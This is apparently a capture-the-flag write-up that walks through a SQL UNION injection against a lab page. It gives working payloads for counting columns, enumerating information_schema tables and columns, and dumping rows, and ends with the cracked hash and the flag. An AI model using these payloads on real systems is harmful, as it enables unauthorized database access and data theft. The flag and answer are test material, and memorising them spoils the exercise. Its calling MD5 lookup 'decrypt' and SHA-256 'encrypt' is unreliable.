 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * http://0.0.0.0/index.php?page=searchimg
> * Input into data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1, this one however does not return error messages

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error:  
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **list_images**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**id,url,title,comment**
>4. Find data  
 >_1 and 1=2 union select 1,concat(id,url,title,comment) from list_images_  
 <br>**5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46**  
 <br>_MD5 DECRYPT-> 1928e8083cf461a51303633093573c46 => albatroz_  
 <br> _toLower -> albatroz => albatroz_  
 <br>_Sh256 ENCRYPT -> albatroz => **f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**_  

* https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
